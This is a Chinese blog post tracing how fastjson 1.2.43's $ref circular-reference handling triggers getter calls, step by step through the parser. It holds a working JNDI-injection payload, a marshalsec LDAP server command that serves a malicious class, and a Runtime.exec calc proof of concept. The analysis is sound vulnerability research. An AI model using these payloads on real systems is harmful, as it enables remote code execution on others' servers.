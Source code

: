 前言
--

虽然 网上已经有很多`fastjson` 的 `payload` ，并且分析漏洞的文章也不在少数了，但是我发现好像没什么分析 `循环引用（$ref）`这个属性的

在学习 `fastjson`漏洞的时候尝试进行了一些分析记录下来。

如果有错误希望师傅们斧正

本篇文章不会从 `fastjson`漏洞的原理讲起，建议师傅们先学习漏洞的成因以及调试一些 `fastjson`内部的代码

这里推荐两篇我看过的很好的的文章：

<https://xz.aliyun.com/t/7027>

<https://www.yuque.com/tianxiadamutou/zcfd4v/xehnw7#dfe50187>

环境部署
----

此次实验环境使用的是 `fastjson 1.2.43` +`jdk1.8.161`

测试代码：

```php
  String payload ="{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\"," +
                "\"ResourceName\":\"ldap://127.0.0.1:1389/ldapServer\"," +
                "\"a\":{\"$ref\":\"$.instance\"}}"
                ;
  JSON.parse(payload);
```

`1389`是通过 `marshalsec` 开启的 LADP 服务器

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#ldapServer 1389
```

`8000`端口是我用 `python`开的服务器，上面挂在着 `ldapServer.class`恶意类（弹服务器）

漏洞分析
----

这个 `payload`会自动触发 `JndiObjectFactory` 的 `getInstance`函数，然后执行 `lookup`最终运行恶意代码。

那是怎么触发的呢，我们可以首先进入 `parse`找到：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f1d70c3fbcb920001d9310fd5a38a357787650bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f1d70c3fbcb920001d9310fd5a38a357787650bb.png)

进入 `handleResovleTask`：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-57cb82050f78aff1cb65626c2f3ba2aa7bee3933.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-57cb82050f78aff1cb65626c2f3ba2aa7bee3933.png)

这里循环了 `resolveTaskList`，想知道它是在哪里添加的，我们可以在：

`addResolveTask`函数上下断点。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-554cf63ed77d9776c276c11ccf6eb6ddd94f1e8a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-554cf63ed77d9776c276c11ccf6eb6ddd94f1e8a.png)

执行到此处以后我们向前找到几个函数：

当 `fastjson`在解析字段时，会执行到 `parseField`：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a4f705caa6a7be02002b6f06b1a4eede9b5994ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a4f705caa6a7be02002b6f06b1a4eede9b5994ff.png)

通常情况下，如果类里面存在指定的字段，那就会在此处返回一个对象，但是我们指定的 `instance`是不在 `JndiObjectFactory`类的。

然后就会执行到下面：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bfd932551387d2b6d08f08914f2fb3a9c7c26b5a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bfd932551387d2b6d08f08914f2fb3a9c7c26b5a.png)

进入 `parseExtra`后：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-168cc9446bec8595c938710c2044e07e1e2b1e59.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-168cc9446bec8595c938710c2044e07e1e2b1e59.png)

再次进入 `parse` 看到此处:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-020b6f9e9a87c432e9043eb6ca26b1a83b79a25c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-020b6f9e9a87c432e9043eb6ca26b1a83b79a25c.png)

为什么会进入 `case 12`呢，我们可以在 `JSONLexerBase`类发现当字符是 `{`时 `token` 赋值为 `12`

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4a5b0c3640549f48f428a9e3aaea816209a13e67.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4a5b0c3640549f48f428a9e3aaea816209a13e67.png)

进入 `parseObject`，大概到 `287` 行:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7988680a92fcead03ef73bed0242f5e3caf003c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a7988680a92fcead03ef73bed0242f5e3caf003c.png)

通过上面的词法分析会取得 `key`为 `$ref`，`ref`为 `$.instance`

然后再下面一些：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fc649c70600e85de1ee995d5ccd6d9b970c30aea.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fc649c70600e85de1ee995d5ccd6d9b970c30aea.png)

此处判断了如果 `ref` 不为 `@`、`..`、`$` 就进入最后的 `else`，然后进入我们最开始的的 `addResolveTask`函数。

回到最开始的 `handleResovleTask`函数：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-336fff0c93324132ccbb33be91cb96c8b804badd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-336fff0c93324132ccbb33be91cb96c8b804badd.png)

此处的 `ref`为 `$.instance` ，最终进入 `JSONPath.eval`：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa707542cb8e3e5224de9201b7199446fad1afd6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa707542cb8e3e5224de9201b7199446fad1afd6.png)

再次进入 `eval`，但是此处我们需要注意一个变量，就是第一个参数为 `JndiObjectFactory`这个类

他的 `resourceName`已经是指向我们的恶意 `LDAP`服务器了，我们只需要触发这个类的 `getInstance`函数即可了。

再次进入 `eval`：

```php
 public Object eval(JSONPath path, Object rootObject, Object currentObject) {
    if (this.deep) {
        ....
    } else {
        // 进入此处
        return path.getPropertyValue(currentObject, this.propertyName, this.propertyNameHash);
    }
}
```

需要注意这里的 `this.propertyName`为 `instance`，接着进入 `getPropertyValue`:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-45431f9669ac9cad82321ca4617932100e93b80e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-45431f9669ac9cad82321ca4617932100e93b80e.png)

此处稍微解释一下 `getJavaBeanSerializer` 函数：

根据传进的类（此处为 JndiObjectFactory ）获得类中的方法

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d148e5430063eb538c159fde31f9c431eea1bad3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d148e5430063eb538c159fde31f9c431eea1bad3.png)

如果函数名中有 `get` 并且符合一定条件就会加入到 `getters`。

接着看代码:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e114bc03e4862943b1f3e6ff5376358f63a26e2b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e114bc03e4862943b1f3e6ff5376358f63a26e2b.png)

这里的 `propertyName`依然为 `instance`

会发现第三个参数为 `propertyNameHash`，根据名字可以知道这是第二次参数的 `hash`值。

进入 `getFieldValue`函数：

```php
    public Object getFieldValue(Object object, String key, long keyHash, boolean throwFieldNotFoundException) {
        // 根据 keyHash 获得字段的值
        FieldSerializer fieldDeser = this.getFieldSerializer(keyHash);
        if (fieldDeser == null) {
            .....
        } else {
            try {
                return fieldDeser.getPropertyValue(object);
            } catch (InvocationTargetException var8) {
                throw new JSONException("getFieldValue error." + key, var8);
            } catch (IllegalAccessException var9) {
                throw new JSONException("getFieldValue error." + key, var9);
            }
        }
    }
```

放出一个 `fieldDeser`属性截图，此处的 `method`为 `getInstance`：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c809df9a09a23defe63a974537c96329402baaaf.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c809df9a09a23defe63a974537c96329402baaaf.png)

然后进入 `getPropertyValue`：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8bcba2ee534221185463578d1a78ec2b39d2ec38.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8bcba2ee534221185463578d1a78ec2b39d2ec38.png)

进入 `FieldInfo`类的 `get` 方法：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-02eb9d90aa0722fd13f66eef8b065cd5ded613d7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-02eb9d90aa0722fd13f66eef8b065cd5ded613d7.png)

此处 `method`不为空，调用 `getInstance`:

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f9d2673c01fde11a77382e22625a6399bcea6c0.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f9d2673c01fde11a77382e22625a6399bcea6c0.png)

触发 `lookup` 获取恶 `class`执行代码。

其实我们不一定需要用到什么固定的类，我们甚至可以本地搭建一个进行测试

本地新建一个类：

```php
public class TestObject {
    public String getHaha() throws IOException {
        Runtime.getRuntime().exec("calc");
        return "1";
    }
}
```

然后我们测试代码：

```php
String payload ="{\"@type\":\"TestObject\",\"haha\":{\"$ref\":\"$.Haha\"}}";
JSON.parse(payload);
```

会发现依然可以弹出计算器，说明我们的分析大致是没什么问题的。

总结
--

本文没什么高深的技术，因为是初学，对分析过程的一个记录，分析过程可能也存在一定错误，如果发现哪里讲得不对，希望师傅们可以即使指出。一起学习